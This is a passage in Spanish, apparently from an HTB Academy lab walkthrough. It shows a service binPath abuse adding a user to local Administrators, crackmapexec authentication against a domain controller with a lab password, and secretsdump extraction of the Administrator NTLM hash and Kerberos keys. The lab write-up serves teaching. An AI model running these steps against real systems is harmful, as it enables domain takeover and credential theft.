 ## 7) Confirmación de membresía del Administrators local

**Comando usado de nuevo**:

```
net localgroup Administrators
```

**Salida clave**:

```
Administrator
Domain Admins
Enterprise Admins
server_adm
```

**Interpretación**:

* A pesar de que el servicio no arrancó normalmente, el efecto del `binPath` modificado (ejecución del `cmd /c net localgroup ...`) se ejecutó en algún momento y agregó `server_adm` al grupo `Administrators`.
* Ahora `server_adm` es miembro del grupo Administradores locales.

---

## 8) Confirmar acceso administrativo en el Controlador de Dominio

**Ejemplo de uso de herramientas para comprobar acceso**:

```
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

**Explicación**:

* `crackmapexec smb <IP> -u <usuario> -p <password>` : intenta autenticación SMB con las credenciales dadas contra la IP objetivo.
* La salida indica acceso exitoso (`Pwn3d!`) y muestra detalles del host (nombre, versión de Windows, dominio).

---

## 9) Extracción de hashes NTLM desde el Controlador de Dominio

**Comando usado**:

```
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
```